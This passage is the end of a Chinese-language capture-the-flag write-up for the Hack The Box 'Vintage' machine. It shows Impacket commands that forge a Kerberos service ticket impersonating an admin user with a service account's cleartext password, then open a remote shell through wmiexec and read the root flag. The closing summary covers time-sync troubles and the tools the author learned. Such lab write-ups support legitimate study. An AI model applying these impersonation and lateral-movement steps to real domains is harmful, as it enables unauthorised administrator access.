假冒L.BIANCHI\_ADM用户请求`cifs/dc01.vintage.htb` 服务的服务票据。成功获取该票据后，可以使用它来访问该服务。

```
└─# impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'  

└─# export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

现在有了L.BIANCHI的票据了，可以直接通过wmiexec执行命令

```
└─# impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\> whoami
vintage\l.bianchi_adm
C:\> type Users\Administrator\Desktop\root.txt
```

## Summary

由于Kerberos的认证机制对时区和系统时间验证非常严格，在操作的过程中，比如BloodyAD或者impacket的相关脚本使用时，如果没有用ntupdate同步时间，会导致命令失败。我也是十分艰难的在进行复现。

本文也是根据别人的WP进行复现，学习到了很多新的工具以及思路：Bloodhound、bloodyAD、ldap信息枚举以及Impacket系列的Kerberos相关的操作。

总的来说理解还是非常浅显，我自己肯定是打不了的，只能通过复现来学习学习思路。

I HATE WINDOWS!!!
